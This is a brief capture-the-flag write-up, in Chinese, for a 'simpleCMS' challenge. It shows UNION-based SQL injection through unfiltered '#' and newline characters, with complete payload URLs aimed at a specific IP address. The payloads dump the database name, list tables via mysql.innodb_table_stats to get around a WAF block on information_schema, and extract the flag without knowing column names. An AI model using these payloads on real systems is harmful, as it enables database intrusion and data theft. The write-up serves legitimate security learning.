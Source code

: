 # simpleCMS

col沒擋`#`和`:`  (col也會根據`|`去explode，然後把好幾個sql串起來)

所以可以註解掉後面整句

接著search可以塞換行，繼續接SQL語句

閉合前面的LOWER(

後面就可以UNION based撈資料惹

比較麻煩的是table有prefix，但是information_schema被waf擋掉惹

還好這題table engine是innodb，也可以從這邊撈表名

## 爆庫名
http://13.125.3.183/index.php?act=board&mid=search&type=2&col=title|idx%23&search=%0a)union+select+1,database(),3,4,5 limit 0,1--+

## 不用information_schema爆表名 (用innodb撈表名)
http://13.125.3.183/index.php?act=board&mid=search&type=2&col=title|idx%23&search=%0a)union+select+1,table_name,3,4,5 from mysql.innodb_table_stats limit 2,1--+

得到`41786c497656426a6149_flag`

## 爆flag (不需要column name)
http://13.125.3.183/index.php?act=board&mid=search&type=2&col=title|idx%23&search=%0a)union+select+c,2,3,4,5 from (SELECT 1 a,2 b,3 c, 4 d UNION SELECT * FROM 41786c497656426a6149_flag)x limit 1,1--+

## flag
`flag{you_are_error_based_sqli_master_XDDDD_XD_SD_xD}`
